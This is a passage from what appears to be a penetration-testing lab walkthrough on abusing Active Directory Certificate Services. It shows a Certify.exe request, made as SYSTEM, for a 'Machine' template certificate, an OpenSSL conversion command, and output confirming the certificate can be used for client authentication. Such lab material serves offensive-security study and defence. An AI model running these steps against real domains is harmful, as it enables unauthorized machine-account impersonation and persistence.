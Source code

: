 <br><br>
Let's now reproduce this in our lab, the idea is as follows:
- Request a certificate from the CA (Certification Authority) based on the "Machine" template, which in its EKU (Enhanced Key Usage) allows Client Authentication by default.
- Convert the .pem file to .pfx using OpenSSL (<span style="color: red;">OPSEC NOTES</span>: Never use weak passwords for certificates 😑).

<br>


```powershell
.\Certify.exe request /ca:CORP-DC.CORP.LOCAL\CORP-CA /template:"Machine" /machine

[*] Action: Request a Certificates

[*] Current user context    : NT AUTHORITY\SYSTEM
[*] No subject name specified, using current machine as subject

[*] Template                : Machine
[*] Subject                 : CN=SRV-01.CORP.LOCAL

[*] Certificate Authority   : CORP-DC.CORP.LOCAL\CORP-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 22

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA0XOxnEqKbwpWnAOHKGHs...

-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

<br><br>

```powershell
Get-PfxCertificate -FilePath .\srv01-A.pfx | select *

EnhancedKeyUsageList : {Client Authentication (1.3.6.1.5.5.7.3.2), Server Authentication (1.3.6.1.5.5.7.3.1)}
DnsNameList          : {SRV-01.CORP.LOCAL}
SendAsTrustedIssuer  : False
Archived             : False
Extensions           : {System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid...}
FriendlyName         :
IssuerName           : System.Security.Cryptography.X509Certificates.X500DistinguishedName
NotAfter             : 1/11/2026 1:50:33 AM
NotBefore            : 1/11/2025 1:50:33 AM
HasPrivateKey        : True
PrivateKey           : System.Security.Cryptography.RSACryptoServiceProvider
PublicKey            : System.Security.Cryptography.X509Certificates.PublicKey
RawData              : {48, 130, 5, 28...}
SerialNumber         : 5400000016747C52BDC9582CB5000000000016
SubjectName          : System.Security.Cryptography.X509Certificates.X500DistinguishedName
SignatureAlgorithm   : System.Security.Cryptography.Oid
Thumbprint           : 8E19E0FFE7DECD870DE249017F0C548DCDE79A8F
Version              : 3
Handle               : 2539689363184
Issuer               : CN=CORP-CA, DC=CORP, DC=LOCAL
Subject              : CN=SRV-01.CORP.LOCAL
```